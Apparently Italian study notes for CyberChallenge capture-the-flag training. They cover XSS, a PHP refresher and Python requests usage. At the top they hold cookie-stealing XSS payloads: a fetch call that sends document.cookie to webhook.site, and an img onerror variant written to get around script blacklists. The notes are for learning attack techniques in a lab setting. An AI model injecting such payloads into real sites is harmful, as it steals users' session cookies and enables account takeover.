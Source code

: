     fetch("https://webhook.site/?" + document.cookie) #esfiltra dati verso sito attaccante
    
    #in generale in html si mette tra <script></script> però spesso è blacklistato:
    #in questo caso richiamo con attributi evento:
    <img src="x" onerror="fetch('webhook_link' + document.cookie)">

**Ripassino PHP**

    <?php ... ?>
    
    #funzioni utili:
    #echo: stampa a schermo
    echo "Ciao " . $_GET['name']; 
    print("")
    
    #funzioni di sistema
    exec()
    system()
    eval()
    
    #metodi superglobali
    $_GET['x']	#Dato via URL (?x=...)
    $_POST['x']	#Dato via form (metodo POST)
    
    #altro
    var_dump è una funzione che printa tutto il contenuto di una variabile
    
    $y = array(”x” => “Hello”); #array associativi
    print($y[x]); #ci si accede così

**Ripasso Python Requests**

    import requests
    
    url = 'http://xss1.challs.cyberchallenge.it/report'
    r = requests.get(url)
    print("ricevuto: ", r.status_code)
    print("cookies: ", r.cookies)
    
    #Uso un cookie mio in una get
    cookies = {'my_cookie': 'cookie_value'}
    r = requests.get(url, cookies=cookies)
    print("ricevuto: ", r.status_code)
    
    ## POST
    p=requests.post('url', data={'key': 'value'})
    print("ricevuto: ", p.json())
    
    
    # METODI DELETE, HEAD, OPTIONS
    r = requests.delete('https://httpbin.org/delete')
    r = requests.head('https://httpbin.org/get')
    r = requests.options('https://httpbin.org/get')

**Esfiltrare dati**
